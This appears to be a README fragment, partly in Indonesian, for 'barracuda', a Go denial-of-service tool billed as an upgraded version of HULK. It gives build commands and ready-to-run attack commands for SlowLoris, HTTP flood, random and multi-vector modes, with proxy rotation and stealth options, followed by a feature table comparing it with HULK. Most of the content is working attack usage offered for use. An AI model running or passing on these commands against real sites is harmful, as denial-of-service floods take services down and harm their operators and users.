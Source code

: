 ### **Build dari Source**
```bash
# Compile barracuda
go build -o barracuda barracuda.go advanced_attacks.go

# Build dengan optimizations
go build -ldflags="-s -w" -o barracuda barracuda.go advanced_attacks.go
```

### **Basic Usage**
```bash
# Standard attack
barracuda -site http://target.com

# SlowLoris attack
barracuda -site http://target.com -mode slowloris -duration 5m

# HTTP Flood dengan rate limiting
barracuda -site http://target.com -mode httpflood -rate 1000 -duration 10m

# Random attack pattern
barracuda -site http://target.com -mode random -duration 15m

# Multi-vector attack
barracuda -site http://target.com -mode multivector -duration 10m
```

### **Advanced Usage**
```bash
# Dengan proxy support
barracuda -site http://target.com -proxy proxies.txt -proxy-rotate

# Dengan custom headers
barracuda -site http://target.com -header "X-Custom: value" -header "Authorization: Bearer token"

# Dengan custom payload
barracuda -site http://target.com -data "param=value" -mode httpflood

# Dengan SSL verification disabled
barracuda -site https://target.com -ssl-verify=false

# Dengan stealth mode
barracuda -site http://target.com -stealth -adaptive
```

## 📊 **Performance Improvements**

| Aspek | Original HULK | BARRACUDA |
|-------|---------------|-----------|
| **Attack Modes** | 1 (Standard) | 5+ (Multiple vectors) |
| **Rate Limiting** | ❌ | ✅ Configurable |
| **Monitoring** | Basic | ✅ Advanced real-time |
| **User Agents** | 13 old | 10+ modern |
| **Proxy Support** | ❌ | ✅ Full support |
| **Safety Features** | ❌ | ✅ Multiple checks |
| **Connection Pooling** | Basic | ✅ Advanced (200 connections) |
| **Multi-threading** | Limited | ✅ Goroutines optimized |
